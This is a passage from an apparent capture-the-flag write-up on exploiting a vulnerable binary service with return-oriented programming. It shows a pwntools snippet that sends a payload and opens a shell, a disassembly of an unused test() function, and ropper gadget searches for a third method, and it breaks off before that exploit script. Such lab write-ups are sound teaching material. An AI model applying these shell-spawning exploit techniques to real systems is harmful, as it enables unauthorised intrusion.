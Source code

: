 ```
p.sendline(payload)
p.sendline('/bin/sh\x00')
p.interactive()

```

And it gets a shell:

```

root@kali# ./pwn_safe-m2.py 
[+] Opening connection to 10.10.10.147 on port 1337: Done
[*] Switching to interactive mode
$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth)

```

#### Method 3: test

The third method relies on the `test()` function that is never called but is still in the code:

```

gdb-peda$ disassemble test 
Dump of assembler code for function test:
   0x0000000000401152 <+0>:     push   rbp
   0x0000000000401153 <+1>:     mov    rbp,rsp
   0x0000000000401156 <+4>:     mov    rdi,rsp
   0x0000000000401159 <+7>:     jmp    r13
   0x000000000040115c <+10>:    nop
   0x000000000040115d <+11>:    pop    rbp
   0x000000000040115e <+12>:    ret    
End of assembler dump.

```

If I can get the address of `system` into R13 and `/bin/sh` onto the top of the stack, then calling `test()` will give a shell. I’ll use `ropper` to find a gadget to POP R13:

```

root@kali# ropper -f myapp | grep r13
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x0000000000401204: pop r12; pop r13; pop r14; pop r15; ret; 
0x0000000000401206: pop r13; pop r14; pop r15; ret; 
0x0000000000401203: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
0x0000000000401205: pop rsp; pop r13; pop r14; pop r15; ret; 

```

The second one works, and I’ll just pop nulls in to R14 and R15. The rest of the addresses I can get from the previous examples, to create this exploit:
